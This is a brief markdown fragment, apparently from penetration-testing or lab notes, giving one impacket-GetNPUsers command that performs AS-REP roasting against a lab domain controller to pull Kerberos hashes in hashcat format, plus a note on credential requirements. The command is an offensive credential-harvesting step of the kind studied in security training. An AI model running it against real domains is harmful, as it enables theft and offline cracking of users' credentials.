 
```bash
impacket-GetNPUsers lol.local/ -usersfile valid_users.txt -format hashcat -dc-ip 10.10.111.10
```

> [!NOTE] NOTE
> You have to have a valid account credentials on the domain
